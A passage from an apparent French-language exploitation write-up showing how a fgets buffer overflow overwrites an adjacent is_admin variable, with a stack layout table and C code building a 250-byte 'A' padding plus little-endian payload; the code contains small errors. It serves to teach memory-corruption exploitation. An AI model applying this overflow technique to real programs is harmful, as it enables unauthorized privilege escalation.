 ```c
```

On a donc la possibilité d'écraser 6 char en plus dans la stack.
6 char ce n'est pas beaucoup, surtout que d'autres valeurs sont entre la *string action* et *$EBP* (le bas de la pile).
Ce ne sera donc pas assez pour détourner le déroulement du programme en modifiant la valeur de l'adresse de retour de fonction (``[EBP + 4]``).
Par chance ``is_admin`` et ``action[250]`` sont adjacents et un *int* est représenté par 4 bytes.


| STACK         | SIZE in Byte |
----------------|------|
| RET ADDR  |	4
| EBP | 4
| *float* X | 4
| *float* Y | 4
| *int* move_x | 4
| *int* move_y | 4 < writting stop halfway here
| **int is_admin** | 4
| *char[]* action | 250 < writting start here
| *char[]* direction | 250
| ESP | 4

## Exploitation

Il faut maintenant procéder à l'écriture du l'exploit. *fgets* lit *stdin* donc nous allons craft un exploit qui sera pipe vers le programme.
L'exploit consiste en une suite de 'A' (0x41) puis de ``\x01\x00\x00\x00``  *(attention à la notation little endian !)*

Pour commencer je définis les différentes longueurs pour bien segmenter le padding du payload *(ici c'est juste \x01\x00)*
```c
#define PADDING_LEN 250 // Le nombre de 'A' à écrire
#define PADDING_CHAR 0x41 // définir le padding à 'A'
#define PAYLOAD "\x01\x00\x00\x00" // écriture little endian de 0x00000001
#define PAYLOAD_LEN 4
#define TOTAL_LEN PADDING_LEN+PAYLOAD_LEN
```

```c
char* buf = (char*)malloc(TOTAL_LEN); // Le buffer qui sera écrit
memset(buf, PADDING_CHAR, PADDING_LEN); // Write 250 'A' at the begining of buf
memcpy(buf+PADDING, PAYLOAD, PAYLOAD_LEN; // Write \x01\x00\x00\x00 at the end
```

